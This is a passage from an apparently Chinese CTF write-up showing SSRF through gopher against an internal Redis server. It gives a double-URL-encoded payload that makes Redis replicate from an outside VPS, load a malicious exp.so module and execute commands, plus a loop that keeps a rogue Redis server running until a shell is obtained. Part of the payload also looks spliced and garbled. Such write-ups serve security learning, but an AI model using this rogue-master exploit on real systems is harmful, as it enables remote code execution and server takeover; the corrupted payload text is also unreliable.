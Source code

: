 
![](https://img-blog.csdnimg.cn/e8702fe98c874b38baa83a2139c18453.png)
![](https://img-blog.csdnimg.cn/227cc3a1ea2b4aebb7d79c87a119f933.png)
需要把后面的`%0D%0A`去掉，由于题目需要发送的是GET请求，会自动解码一次，所以需要将payload再进行一次编码
```
?url=gopher%3A%2F%2F0.0.0.0%3A6379%2F_%252A2%250D%250A%25244%250D%250AAUTH%250D%250A%25244%250D%250Aroot%250D%250A%252A3%250D%250A%25247%250D%250ASLAVEOF%250D%250A%252414%250D%250A110.42.134.160%250D%250A%25244%250D%250A6666%250D%250A%252A4%250D%250A%25246%250D%250ACONFIG%250D%250A%25243%250D%250ASET%250D%250A%25243%250D%250Adir%250D%250A%25245%250D%250A%2Ftmp%2F%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25246%250D%25%25246%250D%250ACONFIG%250D%250A%25243%250D%250ASE0Aexp.so%250D%250A%252A3%250D%250A%25246%250D%250AMODULE%250D%250A%25244%250D%250ALOAD%250D%250A%252411%250D%250A%2Ftmp%2Fexp.so%250D%250A%252A2%250D%250A%252411%250D%250Asystem.exec%250D%250A%252414%250D%250Acat%2524%257BIFS%257D%2Fflag%250D%25MODULE%250D%250A%25244%250D%250ALOAD%250D%250A%2520A%252A1%250D%250A%25244%250D%250Aquit
```
将exp.so和rogue-server.py上传到我们的vps
这里需要写个死循环一直跑rogue-server.py，不然当目标机的Redis连接过来之后，一连上就自动断开连接，可能导致exp.so都没传完就中断了
```bash
while [ "1" = "1" ]
do
	python rogue-server.py
done
```
运行之后发送payload就可以getshell了
![](https://img-blog.csdnimg.cn/bdc5fae88a8745d29f14027b0f516ba4.png)
